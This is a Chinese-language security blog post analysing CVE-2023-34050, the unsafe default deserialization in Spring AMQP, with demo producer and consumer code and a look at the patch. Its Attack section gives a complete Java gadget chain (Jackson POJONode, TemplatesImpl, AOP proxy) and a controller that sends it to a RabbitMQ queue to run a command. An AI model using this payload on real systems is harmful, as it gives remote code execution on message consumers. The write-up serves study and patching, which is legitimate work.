# Preface

https://spring.io/security/cve-2023-34050

官方描述：默认情况下没有提供允许序列化的列表，所有类都可能被反序列化。

> In 2016, allowed list patterns for deserializable class names were added to Spring AMQP, allowing users to lock down deserialization of data in  messages from untrusted sources; however by default, when no allowed  list was provided, all classes could be deserialized.

漏洞条件：

* 使用`SimpleMessageConverter`或`SerializerMessageConverter`
* 用户未设置允许反序列化的名单
* 未受信任的信息发起者获取往`RabbitMQ broker`写消息的权限

影响版本：

* Spring AMQP
  * 1.0.0 ~ 2.4.16
  * 3.0.0 ~ 3.0.9

# AMQP Intro

AMQP：Advanced Message Queuing Protocol 高级消息队列协议，是一个网络协议，它支持符合条件的客户端和消息代理中间件（message middleware broker）进行通讯。`RabbitMQ`是AMQP协议的实现者，所以AMQP中的概念和准则也适用于`RabbitMQ`。

消息：两个应用间传递的数据（数据可能是文本字符串或者序列化对象等，多种可能）

消息队列：在消息传输过程中保存消息的容器，生产者负责写消息到MQ，消费者负责从MQ读消息

为什么需要消息队列？

* 解耦：假如系统B、C、D都需要A的数据，若后面D不需要A数据了，且有新系统E加入，需要A数据，那么A就需要删除和增加相关的代码，无疑是一种强耦合。使用MQ，A只需要发送数据给MQ，其他系统需要数据从MQ获取即可



* 异步：客户端的请求进行，系统A调用B、C、D三个系统，若同步请求，响应时间为B、C、D处理的总和。使用MQ，A直接返回响应给客户端，无需等待B、C、D的响应，大大提高速度，常见于发送短信、邮件等业务。

* 削峰：短时间内大量请求涌入系统A，比如都是进行SQL执行，若A直接发送SQL给数据库进行执行，数据库当然处理不来如此庞大的请求，导致系统瘫痪。使用MQ,A把数据发送到MQ，MQ短时间挤压数据可以接受，再由消费者少量多次拉取数据进行处理。

在JMS中，有两种类型的消息通道：

1. 点对点的Queue，即Producer发送消息到指定的Queue，接收方从Queue收取消息；
2. 一对多的Topic，即Producer发送消息到指定的Topic，任意多个在线的接收方均可从Topic获得一份完整的消息副本。

但在AMQP中，只有Queue没有Topic，但引入了Exchange的概念。当Producer想要发送消息的时候，它将消息发送给Exchange，由Exchange将消息根据各种规则投递到一个或多个Queue：



如果某个Exchange总是把消息发送到固定的Queue，那么这个消息通道就相当于JMS的Queue。如果某个Exchange把消息发送到多个Queue，那么这个消息通道就相当于JMS的Topic。

`RabbitMQ`是一款使用`Erlang`语言开发的，实现AMQP(高级消息队列协议)的开源消息中间件，当然它也支持其他协议，如STOMP、MQTT

`Spring-AMQP`是对AMQP协议的抽象实现，而`Spring-Rabbit`是对协议的具体实现，也是目前的唯一实现。底层使用的就是`RabbitMQ`。

使用IDEA的`Spring Initializr`创建Spring Boot项目，添加依赖`Spring for RabbitMQ`



`2.7.17`对应的`Spring-AMQP`还不是漏洞版本，`spring-boot-starter-parent`改成`2.7.14`

IDEA的外部依赖库可以看到对应`Spring-AMQP`版本为`2.4.14`

`pom.xml`看到依赖项

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-amqp</artifactId>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>
```

要使用RabbitMQ还得安装`Erlang`，为方便直接装docker

```bash
docker run -d --name rabbitmq -p 5672:5672 -p 15672:15672 rabbitmq:management
```

`15672`是web控制台的端口，默认账号密码为`guest/guest`

## Producer

```yaml
server:
  port: 8081
spring:
  rabbitmq:
    host: ip
    port: 5672
    username: guest
    password: guest
```

```java
package com.demo.producer;

import org.springframework.amqp.core.Queue;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.context.annotation.Bean;

@SpringBootApplication
public class ProducerApplication {

    public static void main(String[] args) {
        SpringApplication.run(ProducerApplication.class, args);
    }

    @Bean
    public Queue myQueue(){
        return new Queue("myQueue");
    }
}
```

```java
package com.demo.producer.controller;

import org.springframework.amqp.rabbit.core.RabbitTemplate;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

import javax.annotation.Resource;
import java.util.UUID;

@RestController
public class SendController {
    @Resource
    private RabbitTemplate rabbitTemplate;

    @GetMapping("/send")
    public String send() {
        String uuid = UUID.randomUUID().toString();
        for (int i = 0; i < 10; i++) {
            rabbitTemplate.convertAndSend("myQueue", "hello world " + i);
        }
        return "ok";
    }
}
```



## Consumer

```yaml
spring:
  rabbitmq:
    host: ip
    port: 5672
    username: guest
    password: guest
```

```java
package com.demo.consumer;

import com.rabbitmq.client.Channel;
import org.springframework.amqp.core.Message;
import org.springframework.amqp.rabbit.annotation.RabbitListener;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import java.io.IOException;

@SpringBootApplication
public class ConsumerApplication {

    public static void main(String[] args) {
        SpringApplication.run(ConsumerApplication.class, args);
    }

    @RabbitListener(queues = "myQueue")
    public void receive(String msg, Channel channel, Message message) throws IOException {
        System.out.println("Id: " + message.getMessageProperties().getDeliveryTag());
        System.out.println("Message: " + msg);
    }
}
```



# Analysis

## Producer

客户端生产者调用`RabbitTemplate#convertAndSend`传入了两个参数，分别是队列名和Java对象



Java对象会被转化为Amqp的消息类型，这里就要用到消息转化器。

默认的消息转换器是`SimpleMessageConverter`



接着调用`AbstractMessageConverter#toMessage`将Java对象转化为Message对象，这里的`MessageProperties`应该类似于消息头，存储一些消息的元数据。



`createMessage`由`AbstractMessageConverter`的子类实现。看看`SimpleMessageConverter#createMessage`



可以看到`SimpleMessageConverter`只支持转换字符串、字节数组和实现`Serializable`的类对象，且最终都会转成byte数组，再传入`Message`的构造器中。

在`Serializable`子类的情况下，会设置`MessageProperties`的`Content-Type`为`application/x-java-serialized-object`

`SerializationUtils#serialize`使用的就是纯粹的Java原生序列化。



根据官方描述，还有另一个转化器`SerializerMessageConverter`，看了它的`createMessage`方法和`SimpleMessageConverter`一样

此外`Spring AMQP`还提供了`Jackson2JsonMessageConverter`，将Java对象自动序列化为JSON并以文本消息传递。

想要更换消息转化器，在`ProducerApplication`中加上下面的代码

```java
@Bean
MessageConverter createMessageConverter() {
    return new SerializerMessageConverter();
}
```

## Consumer

客户端消费者使用`@RabbitListener`注解监听指定的队列，当收到消息后，会调用对应消息转化器的`fromMessage`方法

默认依旧是`SimpleMessageConverter`



`createObjectInputStream`创建的`ObjectInputStream`重写了`resolveClass`



`checkAllowedList`是`SimpleMessageConverter`父类`AllowedListDeserializingMessageConverter`的方法

```java
private final Set<String> allowedListPatterns = new LinkedHashSet<String>();

protected void checkAllowedList(Class<?> clazz) {
    SerializationUtils.checkAllowedList(clazz, this.allowedListPatterns);
}
```



一些基本类就没有检测了，对反序列化的类进行了模式匹配，不过默认这个`allowedListPatterns`为空

## Attack

看到这应该就很显然了，打Jackson的链子，生产者直接往RabbitMQ里写恶意类对象，消费者读取后会触发反序列化。

```java
package com.demo.producer.controller;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class Gadget {
    private static int count = 0;
    public static Object getPayload(String cmd) throws Exception {
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);
        count += 1;
        return val;
    }
    public static Object makeTemplatesImpl(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a" + count);
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("{Runtime.getRuntime().exec(\"" + cmd + "\");" +
                "throw new org.springframework.amqp.AmqpRejectAndDontRequeueException(\"err\");}");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_tfactory", null);
        return templates;
    }
    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

```java
package com.demo.producer.controller;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.amqp.rabbit.core.RabbitTemplate;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

import javax.annotation.Resource;

@RestController
public class SendController {
    static {
        try {
            CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(writeReplace);
            ctClass.toClass();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    @Resource
    private RabbitTemplate rabbitTemplate;

    @GetMapping("/send")
    public String send() throws Exception {
        rabbitTemplate.convertAndSend("myQueue", Gadget.getPayload("calc"));
        return "ok";
    }
}
```




消费者若读取Message出现异常，RabbitMQ会将其重新排队，导致客户端陷入无限循环

payload中要抛出`AmqpRejectAndDontRequeueException`异常。

# Patch

新版本`SerializationUtils `增加了几个成员变量，改了`checkAllowedList`，默认情况下不能反序列化任意类了。想要反序列化要么得配置`allowedList`，要么得开启环境变量`SPRING_AMQP_DESERIALIZATION_TRUST_ALL`，或设置系统属性`spring.amqp.deserialization.trust.all`





# Ref

* https://developer.aliyun.com/article/769883
* https://www.liaoxuefeng.com/wiki/1252599548343744/1282385960239138
* https://exp10it.cn/2023/10/spring-amqp-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-cve-2023-34050-%E5%88%86%E6%9E%90/